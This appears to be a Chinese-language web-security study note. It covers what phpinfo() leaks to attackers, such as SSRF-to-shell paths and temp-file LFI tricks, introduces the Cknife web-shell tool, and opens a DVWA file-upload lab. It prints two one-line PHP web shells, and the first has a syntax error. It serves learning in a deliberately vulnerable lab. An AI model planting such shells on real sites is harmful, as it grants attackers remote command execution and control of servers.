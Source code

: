2. 支持的程序

可以查看一些特殊的程序服务，诸如 redis、memcache、mysql、SMTP、curl。要是服务器装了 redis 或者 memcache，就可以通过 ssrf 来 getshell。

3. 泄漏真实 ip（`_SERVER["SERVER_ADDR"]` 或者 `SERVER_ADDR`）

得到的 ip 可以直接用来查旁站和 c 段。

4. GOPHER

如果支持 gopher 也能直接用 ssrf。

5. fastcgi

查看是否开启 fastcgi 和查看 fastcgi 的版本，可能导致解析漏洞、远程命令执行、任意文件读取等问题。

6. 泄漏缓存文件地址（`_FILES["file1"]`）

向 `phpinfo()` post 一个 shell 后，可以在 `_FILE["file1"]` 中看到上传的临时文件，如果有个 LFI，便可以直接 getshell。

7. 一些敏感配置

- `allow_url_include`：远程文件包含
- `disable_functions`：查看金庸函数
- `open_basedir`：读取一些没权限的目录

还能获取一些环境信息，如 environment 中的 path、log 等。

## Linux 基本命令

- ls：列出当前目录下所有文件
- pwd：查看文件当前目录

# Cknife（菜刀）

超级强大的网站管理工，分为客户端和代码两部分

只要将那简短的一句话代码放到网站上去就可以取得网站的权限

运行环境：安装了 `JRE1.7+` 环境的所有操作系统

主要功能：文件管理、虚拟终端、数据库管理

## DVWA 之 File Upload

low level 的测试一下，源码中没有对任何文件格式进行过滤：

1. 写出一句话木马

用菜刀连接的一句话木马：

```php
<?php @eval($_POST['a']; ?>
```

直接在网页下通过 GET 的一句话木马：

```php
<?php echo shell_exec($_GET['a']); ?>
```
